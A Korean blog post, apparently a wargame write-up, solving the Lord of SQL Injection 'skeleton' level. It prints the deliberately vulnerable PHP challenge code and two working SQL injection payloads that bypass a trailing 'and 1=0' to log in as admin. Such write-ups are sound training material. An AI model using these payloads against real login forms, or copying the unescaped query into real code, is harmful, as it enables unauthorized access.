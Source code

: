 ```yaml
---
title: "[Lord of SQL Injection] LoS - skeleton 문제풀이"
date: 2018-07-29
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


내일이 월요일이라니 실화인가.
주말 너무 순삭되는 것 같다.
지금 진행중인 `CTF` 문제를 풀고 싶은데 아직 내 실력으로는 무리라는걸 깨닫고 다시 `LOS`를 풀려고 돌아왔다.  

<!--more-->

이번 문제의 이름은 `skeleton` 이다.
코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='' and 1=0
-----------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번 문제도 역시 소스코드가 짧다.
딱히 큰 필터링은 없는데 이번엔 쿼리가 달라져있다.
`pw`를 사용자로부터 받아오는데, 뒤에 `and 1=0`이 있어 무조건 마지막에 입력한 쿼리는 `false`가 된다.
예를 들어, 내가 이 전에 문제들을 풀었던 것 처럼 `pw`에 `1' or id='admin`을 입력한다면 완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_skeleton where id='guest' and pw='1' or id='admin' and 1=0
```

때문에 내가 입력한 값이 `id=admin and 1=0` 를 만들게 되는 것이다.
그럼 뒤의 `and 1=0`을 실행 못하게 하면 문제를 풀 수 있을 것 같다.
사실 아래처럼 입력해도 문제를 풀 수 있다.  

```plain
?pw=1' or id='admin' or '1'='1
```

이렇게 되면 `id='admin'`를 기준으로 앞과 뒤의 쿼리가 모두 `false`고 `id='admin'`만 `true`가 되어 결과적으로 `admin`을 추출할 수 있다.
근데 귀찮아서 문제를 풀 때는 그냥 `#`으로 주석처리 했다.  

```plain
?pw=1' or id='admin'%23
```

역시 문제 풀때는 간단한 방법이 최고다.  

```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_skeleton where id='guest' and pw='1' or id='admin'#' and 1=0
-------------------------------------------------------------------------------------------------------------------

SKELETON Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

---

```plain
SKELETON Clear!!
```